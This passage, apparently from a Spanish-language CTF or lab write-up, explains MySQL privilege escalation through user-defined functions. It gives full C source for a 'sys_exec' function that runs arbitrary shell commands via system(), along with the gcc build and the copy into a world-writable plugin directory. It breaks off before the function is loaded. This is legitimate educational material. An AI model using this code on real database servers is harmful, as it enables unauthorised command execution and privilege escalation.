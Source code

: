 Vemos que si nos deja, vamos a probar a realizar una tecnica para aprovechar una vulnerabilidad llamada `Escalada con UDF (User-Defined Functions)`, por lo que vamos a probar a realizar una tecnica para aprovechar eso en tal caso de que lo tuviera.

```shell
cd /tmp
nano lib_mysqludf_sys.c

#Dentro del nano
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <mysql/mysql.h>

my_bool sys_exec_init(UDF_INIT *initid, UDF_ARGS *args, char *message) {
    if (args->arg_count != 1 || args->arg_type[0] != STRING_RESULT) {
        strcpy(message, "sys_exec() takes exactly one string argument.");
        return 1;
    }
    return 0;
}

long long sys_exec(UDF_INIT *initid, UDF_ARGS *args, char *is_null, char *error) {
    if (args->args[0]) {
        return system(args->args[0]);
    }
    return -1;
}

my_bool sys_exec_deinit(UDF_INIT *initid) {
    return 0;
}
```

Metemos ese codigo para que cuando llamemos a la funcion podamos ejecutar comandos.

Vamos a compilarlo de la siguiente forma:

```shell
gcc -shared -o lib_mysqludf_sys.so -fPIC lib_mysqludf_sys.c -I/usr/include/mysql/ -L/usr/lib/ -lmariadbclient
mv /tmp/lib_mysqludf_sys.so /usr/lib/mysql/plugin/
```

Podemos mover el binario a la carpeta `plugins` de `MySQL` ya que tiene los siguientes permisos:

```shell
ls -la /usr/lib/mysql/
```

Info:

```
drwxr-xrwx 1 root root 4096 Feb 27 13:33 plugin
```

Ahora vamos a cargar la funcion de lo que hemos creado de la siguiente forma:
